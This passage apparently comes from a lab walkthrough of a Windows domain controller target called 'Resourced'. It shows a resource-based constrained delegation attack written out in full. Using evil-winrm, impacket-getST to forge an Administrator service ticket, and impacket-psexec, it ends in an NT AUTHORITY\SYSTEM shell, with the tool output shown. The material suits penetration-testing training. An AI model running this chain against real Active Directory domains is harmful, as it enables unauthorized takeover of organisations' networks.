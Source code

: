 We can confirm that this was successful by using our `evil-winrm` session.

```
*Evil-WinRM* PS C:\Users\L.Livingstone\Documents> Get-adcomputer resourcedc -properties msds-allowedtoactonbehalfofotheridentity |select -expand msds-allowedtoactonbehalfofotheridentity

Path Owner                  Access
---- -----                  ------
     BUILTIN\Administrators resourced\ATTACK$ Allow
```

We now need to get the administrator service ticket. We can do this by using `impacket-getST` with our privileged machine account.

```
┌──(kali㉿kali)-[~]
└─$ impacket-getST -spn cifs/resourcedc.resourced.local resourced/attack\$:'AttackerPC1!' -impersonate Administrator -dc-ip 192.168.120.181
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

This saved the ticket on our Kali host as **Administrator.ccache**. We need to export a new environment variable named `KRB5CCNAME` with the location of this file.

```
┌──(kali㉿kali)-[~]
└─$ export KRB5CCNAME=./Administrator.ccache
```

Now, all we have to do is add a new entry in **/etc/hosts** to point `resourcedc.resourced.local` to the target IP address and run `impacket-psexec` to drop us into a system shell.

```
┌──(kali㉿kali)-[~]
└─$ sudo sh -c 'echo "192.168.120.181 resourcedc.resourced.local" >> /etc/hosts'

┌──(kali㉿kali)-[~]
└─$ sudo impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip 192.168.120.181 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on resourcedc.resourced.local.....
[*] Found writable share ADMIN$
[*] Uploading file zZeQFeGQ.exe
[*] Opening SVCManager on resourcedc.resourced.local.....
[*] Creating service rEwK on resourcedc.resourced.local.....
[*] Starting service rEwK.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2145]
(c) 2018 Microsoft Corporation. All rights reserved.
 
C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> 
```

Success! We now have system access on the target system.
